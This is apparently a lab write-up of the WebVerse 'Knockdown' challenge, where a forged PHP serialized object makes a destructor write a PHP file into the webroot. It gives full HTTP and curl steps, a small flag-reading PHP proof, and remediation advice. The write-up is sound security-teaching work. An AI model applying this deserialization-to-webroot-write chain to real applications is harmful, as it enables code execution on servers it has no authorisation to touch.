> **Quick note:** Knockdown was reproduced on 2 September 2026 in two fresh WebVerse instances, one for the Caido steps and another for the Terminal steps. The commands therefore use `<CAIDO_LAB_HOST>` and `<TERMINAL_LAB_HOST>`. Passwords, session cookies, and challenge flags are redacted. Temporary hostnames and file paths remain visible because they make it easier to follow which steps belong to each run.

## Executive Summary

Knockdown lets an authenticated user export and import portable `.kdb` build files. A normal export looked like Base64 text. Decoding it locally revealed a PHP serialized `Project` object with a nested `RenderCache` object and two useful properties: `path` and `html`.

The import accepted the same object with only those two values changed and their serialized string lengths recalculated. The new `path` pointed to a unique PHP file inside `/var/www/html`. The new `html` contained a small PHP proof that read only `/flag.txt`, printed the matching WebVerse value, and tried to delete itself.

Before the import, the exact PHP path returned `404`. The import returned `200`, but that response alone was not treated as success. Requesting the exact path again returned `200` with the current lab objective. The same chain then worked with `curl` and local Python on a second fresh instance.

> **CONFIRMED FINDING**
>
> Knockdown deserializes an unsigned, user-controlled PHP object graph. A changed `RenderCache` object reaches its destructor and writes attacker-controlled content to an attacker-controlled path inside the executable webroot.

## 1. Report Profile

| Field | Verified value |
| --- | --- |
| Platform | WebVerse |
| Lab | Knockdown |
| Difficulty | Medium |
| Reproduction date | 2 September 2026 |
| Account requirement | Ordinary self-created lab account |
| Export route | `POST /builds/credenza-sideboard/export` |
| Import route | `POST /import` |
| Portable format | Base64-encoded PHP serialized object graph |
| Nested object | `RenderCache` |
| Controlled properties | `path` and `html` |
| File sink | `RenderCache::__destruct()` to `file_put_contents()` |
| Primary weakness | [CWE-502](/cwes/cwe-502/): Deserialization of Untrusted Data |
| Supporting weakness | [CWE-73](/cwes/cwe-73/): External Control of File Name or Path |
| Confirmed result | Controlled PHP file written and executed from the webroot |
| Evidence | Browser, Caido, local Python, `curl`, and WebVerse solved state |
| Caido reproduction | Passed |
| Terminal reproduction | Passed on a separate fresh instance |

### Verified Attack Chain

```text
Create a normal account
  > authenticated kd_session
Open a public build
  > Credenza Sideboard
Export the build
  > Base64 .kdb data
Decode locally
  > PHP serialized Project object
  > nested RenderCache(path, html)
Request a unique PHP artifact path
  > 404 Not Found
Change only RenderCache.path and RenderCache.html
  > preserve PHP serialized string lengths
Import the changed .kdb file
  > server accepts the object graph
RenderCache destructor
  > file_put_contents(controlled path, controlled HTML)
Request the same artifact path once
  > 200 OK and WEBVERSE{REDACTED}
WebVerse solved state
  > stop
```

## 2. Scope and Evidence Limits

Testing stayed inside two fresh Knockdown lab instances and stopped after the objective was confirmed.

- Caido and Terminal used different hosts, accounts, sessions, export files, and artifact names.
- Both tracks started from the application's own Credenza Sideboard export instead of an object graph built from an assumed class layout.
- The local scripts changed only `RenderCache.path` and `RenderCache.html`. They also rewrote the PHP serialized byte lengths instead of manually guessing them.
- The exact artifact returned `404` before import and `200` after import in both tracks.
- `POST /import` returning `200` only shows that the request completed. The later artifact request is the runtime proof.
- The PHP proof reads only `/flag.txt`, prints one matching WebVerse value, and calls `unlink(__FILE__)` before printing. The attempted self-delete was not checked with another request because testing stopped after the objective.
- The evidence confirms a controlled file write into the PHP webroot and PHP execution for this lab path. It does not document persistence, an interactive shell, access to unrelated files, lateral movement, or another system.
- The source-level challenge description explains the `serialize`, `unserialize`, destructor, and `file_put_contents` flow. Runtime evidence confirms that the documented chain works on the supplied instances.

The root cause matches [MITRE CWE-502](https://cwe.mitre.org/data/definitions/502.html): untrusted data is deserialized without proving the rebuilt object is safe. [MITRE CWE-73](https://cwe.mitre.org/data/definitions/73.html) supports the observed path control because the changed `path` property reaches a server-side file operation.

## 3. Evidence-Led Chronological Reproduction

Both tracks use the same order:

1. open the fresh application;
2. create a normal account;
3. open Credenza Sideboard;
4. export a legitimate `.kdb` file;
5. decode and inspect the object locally;
6. record a `404` for a unique PHP path;
7. create a changed copy with valid serialized lengths;
8. import the changed file;
9. request the exact path once and stop after the objective appears.

The Caido track keeps the browser and raw HTTP context together. The Terminal track repeats the same chain with a cookie jar, `curl`, and the same local object-editing logic.

## 4. Caido/Burp Reproduction

### Step 1: Open the Fresh Instance

The first check was the public root route before creating an account.

```http
GET / HTTP/1.1
Host: <CAIDO_LAB_HOST>
```

Equivalent command:

```bash
curl -i -sS 'https://<CAIDO_LAB_HOST>/'
```



**Figure 1: Fresh-instance request.** No application credential is present.



**Figure 2: Public response.** The server returns the normal Knockdown page with `200 OK`.



**Figure 3: Browser baseline.** The public site exposes registration, build browsing, and build import as normal product features.

### Step 2: Open the Registration Form

```http
GET /register HTTP/1.1
Host: <CAIDO_LAB_HOST>
```

Equivalent command:

```bash
curl -i -sS 'https://<CAIDO_LAB_HOST>/register'
```



**Figure 4: Registration request.** This follows the public route from the page.



**Figure 5: Registration response.** The form expects a display name, email address, and password.



**Figure 6: Registration form.** For this run, I created a disposable account used only inside the lab.

### Step 3: Create an Ordinary Account

```http
POST /register HTTP/1.1
Host: <CAIDO_LAB_HOST>
Content-Type: application/x-www-form-urlencoded

display_name=<LAB_NAME>&email=<LAB_EMAIL>&password=<LAB_PASSWORD>
```

Equivalent command:

```bash
curl -i -sS -c knockdown.cookies -X POST \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'display_name=<LAB_NAME>' \
  --data-urlencode 'email=<LAB_EMAIL>' \
  --data-urlencode 'password=<LAB_PASSWORD>' \
  'https://<CAIDO_LAB_HOST>/register'
```



**Figure 7: Account creation request.** The password and old session value are removed. The route, method, fields, and request shape remain visible.



**Figure 8: New account response.** The application returns `302` to `/account` and issues a new `kd_session` cookie.



**Figure 9: Authenticated browser state.** The new account has an empty workshop and can browse or import builds.

```http
GET /account HTTP/1.1
Host: <CAIDO_LAB_HOST>
Cookie: kd_session=<REDACTED>
```



**Figure 10: Account request.** The session is redacted but the authenticated route remains clear.



**Figure 11: Account response.** The server returns the user's workshop with `200 OK`.

### Step 4: Open Credenza Sideboard

I selected one normal public build so the application could create its own valid export structure.

```http
GET /builds/credenza-sideboard HTTP/1.1
Host: <CAIDO_LAB_HOST>
Cookie: kd_session=<REDACTED>
```

Equivalent command:

```bash
curl -i -sS -b knockdown.cookies \
  'https://<CAIDO_LAB_HOST>/builds/credenza-sideboard'
```



**Figure 12: Build request.** This is an ordinary authenticated read.


**Figure 13: Build response.** The application returns the build page with its export action.



**Figure 14: Selected build.** This is the source object used for the legitimate `.kdb` baseline.

### Step 5: Export a Legitimate Build File

```http
POST /builds/credenza-sideboard/export HTTP/1.1
Host: <CAIDO_LAB_HOST>
Cookie: kd_session=<REDACTED>
Content-Length: 0
```

Equivalent command:

```bash
curl -sS -b knockdown.cookies -X POST \
  -o legitimate_export.kdb \
  'https://<CAIDO_LAB_HOST>/builds/credenza-sideboard/export'
```



**Figure 15: Export request.** The request has no custom object or changed property.



**Figure 16: Legitimate export.** The response body is Base64 text. This exact body becomes the local input file.

### Step 6: Decode and Inspect the Export Locally

In `nano`, I pasted only the Base64 response body, saved with `Ctrl+O`, pressed `Enter`, and exited with `Ctrl+X`.

```bash
mkdir -p ~/knockdown-caido
cd ~/knockdown-caido
nano legitimate_export.kdb
```

The decoder used the same process:

```bash
nano knockdown-decode-export.py
```



Run it against the saved response body:

```bash
python3 knockdown-decode-export.py legitimate_export.kdb
```



**Figure 17: Object inspection.** The export contains a serialized `Project` and a nested `RenderCache` with `path` and `html` string properties. This identifies the exact part changed later.

### Step 7: Record the Missing-Artifact Control

The artifact name uses the first eight characters from this fresh host. Any new instance needs its own name and matching payload.

```http
GET /mmp_kd_<INSTANCE_ID>.php HTTP/1.1
Host: <CAIDO_LAB_HOST>
Cookie: kd_session=<REDACTED>
```

Equivalent command:

```bash
curl -i -sS 'https://<CAIDO_LAB_HOST>/mmp_kd_<INSTANCE_ID>.php'
```



**Figure 18: Browser control.** The exact file does not exist before the changed object is imported.



**Figure 19: Pre-import artifact request.** The path is fixed before the payload is built.



**Figure 20: Pre-import result.** The server returns `404 Not Found`. Figures 18 to 20 show the browser result and Caido request and response from the same control transaction.

### Step 8: Build the Changed RenderCache Object

Next, I created the mutator locally:

```bash
cd ~/knockdown-caido
nano knockdown-build-rendercache.py
```



The script starts from the legitimate export, finds the nested `RenderCache`, changes only `path` and `html`, and writes the correct byte lengths back into the serialized format. The proof file reads only `/flag.txt` and requests self-deletion before printing the matching value.

```php
<?php
$v=@file_get_contents('/flag.txt');
@unlink(__FILE__);
if(preg_match('/WEBVERSE\{[^}]+\}/',$v,$m)){
    echo $m[0];
}else{
    echo 'NO_OBJECTIVE_AT_FLAG_TXT';
}
?>
```

For a host such as `3e1f582e-4414-knockdown-...`, the instance ID is `3e1f582e`:

```bash
INSTANCE_ID='<FIRST_8_HOST_CHARACTERS>'
python3 knockdown-build-rendercache.py legitimate_export.kdb "$INSTANCE_ID"
```



**Figure 21: Payload build.** The output records the exact webroot path, the 170-byte PHP body, and the changed `RenderCache` object. The generated Base64 is saved as `forged_rendercache.kdb`.

### Step 9: Import the Changed Build

Before submitting anything, I opened the normal import page.



**Figure 22: Import page.** The application accepts a portable `.kdb` build file.

Printing the complete file exposed one Base64 line, ready to copy into Caido.

```bash
cat ~/knockdown-caido/forged_rendercache.kdb
```



**Figure 23: Generated import value.** This is the output of the local mutator, not a manually edited Base64 string.

```http
GET /import HTTP/1.1
Host: <CAIDO_LAB_HOST>
Cookie: kd_session=<REDACTED>
```



**Figure 24: Import-page request.** This GET only loads the form. It is not the exploit request.



**Figure 25: Import-page response.** The `200 OK` confirms the form loaded, nothing more.

The generated value went into **Build file**, followed by a normal form submission.

```http
POST /import HTTP/1.1
Host: <CAIDO_LAB_HOST>
Cookie: kd_session=<REDACTED>
Content-Type: application/x-www-form-urlencoded

build_file=<COMPLETE_BASE64_FROM_FORGED_RENDERCACHE.KDB>
```

Equivalent command:

```bash
curl -i -sS -b knockdown.cookies -X POST \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'build_file@forged_rendercache.kdb' \
  'https://<CAIDO_LAB_HOST>/import'
```



**Figure 26: Changed-object import.** The session is removed from the public image. The full generated Base64 body remains visible because it is the imported object.



**Figure 27: Import response.** The application returns `200 OK`. This is not enough to claim the file write succeeded.

### Step 10: Request the Exact Artifact Once

The next request went to the same path that returned `404` before import.

The next three figures show one browser transaction from three views: the rendered page, its request in Caido, and its response in Caido. Only one request reached the self-deleting proof.

```http
GET /mmp_kd_<INSTANCE_ID>.php HTTP/1.1
Host: <CAIDO_LAB_HOST>
Cookie: kd_session=<REDACTED>
```

Equivalent command:

```bash
curl -i -sS 'https://<CAIDO_LAB_HOST>/mmp_kd_<INSTANCE_ID>.php'
```



**Figure 28: Browser result.** The exact path now returns the current lab objective. The literal value is replaced with `WEBVERSE{REDACTED}`.



**Figure 29: Final artifact request.** This is the same path used for the `404` control.



**Figure 30: Runtime proof.** The response changes from `404` to `200` and executes the controlled PHP body. Testing stopped here.



**Figure 31: Platform result.** WebVerse records Knockdown as solved.

## 5. Terminal/CLI Reproduction

The Terminal track repeats the same chain on another fresh instance. It uses a cookie jar so the session is carried between requests without copying the cookie into each command.

### Step 1: Set the Fresh Host and Check the Root Page

```bash
LAB_HOST='<TERMINAL_LAB_HOST>'
LAB_ORIGIN="https://$LAB_HOST"
COOKIE_JAR="$HOME/knockdown-terminal.cookies"

curl -i -sS "$LAB_ORIGIN/"
```



**Figure 32: Terminal baseline.** The root route returns `200`. The initial session cookie is removed from the public image.

### Step 2: Load Registration and Create a Cookie Jar

```bash
curl -i -sS -c "$COOKIE_JAR" "$LAB_ORIGIN/register"
```



**Figure 33: Registration setup.** `curl -c` stores the new session locally. The printed cookie is redacted.

### Step 3: Register a Disposable Account

If no account exists on the fresh instance, create one now. If the same account was already created through Caido on this exact instance, skip registration and continue with its valid cookie jar.

```bash
read -rp 'Display name: ' LAB_NAME
read -rp 'Lab email: ' LAB_EMAIL
read -rsp 'Lab password: ' LAB_PASSWORD
echo

curl -i -sS \
  -b "$COOKIE_JAR" \
  -c "$COOKIE_JAR" \
  -X POST \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode "display_name=$LAB_NAME" \
  --data-urlencode "email=$LAB_EMAIL" \
  --data-urlencode "password=$LAB_PASSWORD" \
  "$LAB_ORIGIN/register"

unset LAB_PASSWORD
```



**Figure 34: Terminal registration.** The response redirects to `/account` and updates the `kd_session` cookie. The entered password and printed session are removed.

### Step 4: Confirm the Authenticated Account

```bash
curl -i -sS -b "$COOKIE_JAR" "$LAB_ORIGIN/account"
```



**Figure 35: Authenticated account response, part one.** The request returns `200` with the account page.



**Figure 36: Authenticated account response, part two.** The body identifies the empty workshop and import option for the disposable account.

### Step 5: Open the Same Public Build

```bash
curl -i -sS -b "$COOKIE_JAR" \
  "$LAB_ORIGIN/builds/credenza-sideboard"
```



**Figure 37: Build response.** The second instance exposes the same Credenza Sideboard export action.

### Step 6: Save a Legitimate Export

```bash
mkdir -p ~/knockdown-terminal

curl -sS \
  -b "$COOKIE_JAR" \
  -X POST \
  -D ~/knockdown-terminal/export.headers \
  -o ~/knockdown-terminal/legitimate_export.kdb \
  "$LAB_ORIGIN/builds/credenza-sideboard/export"

cat ~/knockdown-terminal/export.headers
printf '\n--- EXPORT PREVIEW ---\n'
head -c 120 ~/knockdown-terminal/legitimate_export.kdb
echo
```



**Figure 38: Saved export.** The response is written directly to `legitimate_export.kdb`, so there is no clipboard change to the encoded object.

### Step 7: Decode the Export

Create the same decoder shown in Caido Step 6:

```bash
nano ~/knockdown-terminal/knockdown-decode-export.py
```

Paste the full **Knockdown export decoder** source, save with `Ctrl+O`, press `Enter`, and exit with `Ctrl+X`.

```bash
python3 ~/knockdown-terminal/knockdown-decode-export.py \
  ~/knockdown-terminal/legitimate_export.kdb
```



**Figure 39: Terminal object inspection.** The second legitimate export contains the same `Project` and `RenderCache` structure.

### Step 8: Record the Second 404 Control

```bash
INSTANCE_ID="${LAB_HOST%%-*}"
ARTIFACT="mmp_kd_${INSTANCE_ID}.php"

curl -i -sS "$LAB_ORIGIN/$ARTIFACT"
```



**Figure 40: Terminal pre-import control.** The unique path returns `404` before the object is changed or imported.

### Step 9: Build the Second Changed Object

Create the same builder shown in Caido Step 8:

```bash
nano ~/knockdown-terminal/knockdown-build-rendercache.py
```

Paste the full **Knockdown RenderCache payload builder** source, save it, and run:

```bash
python3 ~/knockdown-terminal/knockdown-build-rendercache.py \
  ~/knockdown-terminal/legitimate_export.kdb \
  "$INSTANCE_ID"
```



**Figure 41: Terminal payload build.** The generated path matches the current instance ID, the PHP body remains 170 bytes, and the output file is `forged_rendercache.kdb`.

### Step 10: Import with curl

```bash
curl -sS \
  -b "$COOKIE_JAR" \
  -c "$COOKIE_JAR" \
  -X POST \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'build_file@/home/kali/knockdown-terminal/forged_rendercache.kdb' \
  -D ~/knockdown-terminal/import.headers \
  -o ~/knockdown-terminal/import.response \
  -w 'HTTP=%{http_code}\nRESPONSE_BYTES=%{size_download}\n' \
  "$LAB_ORIGIN/import"
```



**Figure 42: Terminal import.** The endpoint returns `HTTP=200` and a response body. The file write still needs the next check.

### Step 11: Request the Exact Artifact Once

```bash
curl -i -sS "$LAB_ORIGIN/$ARTIFACT"
```



**Figure 43: Independent runtime proof.** The same path that returned `404` now returns `200` and the current objective. The literal value is redacted, and testing stops after this response.

## 6. Controls and Results

| Check | Result | Why it matters |
| --- | --- | --- |
| Public root | `200` | Records the clean starting point. |
| New account | `302` to `/account` plus a new session | Confirms an ordinary user can reach the export and import workflow. |
| Legitimate export | Base64 `.kdb` body | Provides an application-generated object graph instead of an assumed one. |
| Local decode | `Project` with nested `RenderCache(path, html)` | Identifies the exact object and properties changed later. |
| Unique artifact before import | `404` | Proves the PHP file did not already exist. |
| Changed import | `200` | Confirms the request completed, but is not treated as runtime proof. |
| Same artifact after import | `200` plus `WEBVERSE{REDACTED}` | Confirms the new file exists and its PHP body ran. |
| Second fresh instance | Same `404` to `200` change | Confirms the chain through an independent client and object export. |
| WebVerse solved screen | Knockdown solved | Confirms the platform accepted the objective. |

The main control is the exact path comparison. Both runs request one unique artifact before import and receive `404`. Both then import a changed copy of the application's own export and receive the objective from that same path.

## 7. Root Cause and Classification

The source-level flow supplied with the lab is:

```php
$encoded = base64_encode(serialize($project));

$project = unserialize(base64_decode($input));
```

The imported object is rebuilt without a signature, integrity check, safe data-only schema, or class restriction. That is the primary [CWE-502](/cwes/cwe-502/) issue.

The nested object adds the usable gadget:

```php
class RenderCache
{
    public string $path;
    public string $html;

    public function __destruct()
    {
        file_put_contents($this->path, $this->html);
    }
}
```

The attacker-controlled object chooses both arguments to `file_put_contents`. In the reproduced chain, `path` points inside `/var/www/html` and `html` contains PHP. That path control supports [CWE-73](/cwes/cwe-73/), but it is not the original trust failure. The chain begins because untrusted serialized data is accepted as live application objects.

This is not a normal unrestricted file upload. The dangerous file is created through a destructor in a deserialized object, not because the server accepts a PHP filename in a standard upload field.

## 8. Confirmed Impact

The reproduced impact is:

- an ordinary authenticated user can submit a changed PHP serialized object graph;
- the object controls a server-side filesystem path and file content;
- the server writes that content into the executable PHP document root;
- one request to the new file executes the PHP proof;
- the proof reads only the current lab objective from `/flag.txt`.

In another application, the same primitive could support a persistent web-accessible PHP file or a broader server compromise. Those are reasonable consequences of an executable webroot write, but they were not tested here and are not presented as completed actions.

## 9. Remediation

1. **Do not deserialize client-supplied PHP objects.** Use JSON or another data-only format and copy allowed fields into new server-side objects.
2. **Sign exported build files.** Verify an HMAC or digital signature before processing any imported content. This protects the integrity of a portable file, but it should support rather than replace a safe format.
3. **Remove internal runtime objects from the portable schema.** `RenderCache` and other classes with magic methods should never come from an imported file.
4. **Remove file writes from destructors.** Cleanup methods should not perform a security-sensitive write based on mutable object properties.
5. **Keep generated files outside the document root.** If cached previews are required, store them in a non-executable directory and generate server-side names.
6. **Enforce an approved destination.** Canonicalize the final path and reject any value outside one fixed cache directory.
7. **Use `allowed_classes` only as a temporary PHP defense.** It can reduce the immediately available object types, but a data-only parser and new server-side objects are the safer design.
8. **Make the webroot read-only for the application account.** The runtime should not be able to create PHP files in a directory served as executable code.
9. **Log rejected imports.** Record invalid signatures, unexpected classes, malformed lengths, and attempts to set server-side paths without returning internal object details to the client.

## 10. How to Verify the Fix

1. Export a normal Credenza Sideboard build and confirm a clean import still works.
2. Confirm the new export is a documented data-only structure rather than PHP serialization.
3. Change one ordinary build field without updating the integrity value. The import must be rejected before any object is created.
4. Add `Project`, `RenderCache`, `path`, `html`, or another unknown field to the import. The parser must reject it.
5. Repeat the unique artifact check. It must return `404` before and after every rejected import.
6. Review the filesystem and confirm no import-created file appears inside the webroot.
7. Confirm the application account cannot write to PHP-served directories even if an application-level check fails.
8. Verify that no destructor, wakeup method, or other magic method runs from imported data.
9. Confirm import errors return a simple public message without serialized object, filesystem, or stack details.

## Conclusion

Knockdown treats an imported build file as live PHP objects. A normal export already contains the object structure, and the import accepts a changed copy without checking its integrity or rebuilding it as safe data.

The useful part of the proof is not the import's `200` response. It is the complete sequence around one exact path: legitimate export, local object inspection, `404` before import, two length-correct property changes, import, and `200` from the new PHP artifact. The second fresh-instance Terminal run repeats the same result without relying on the first session or export.
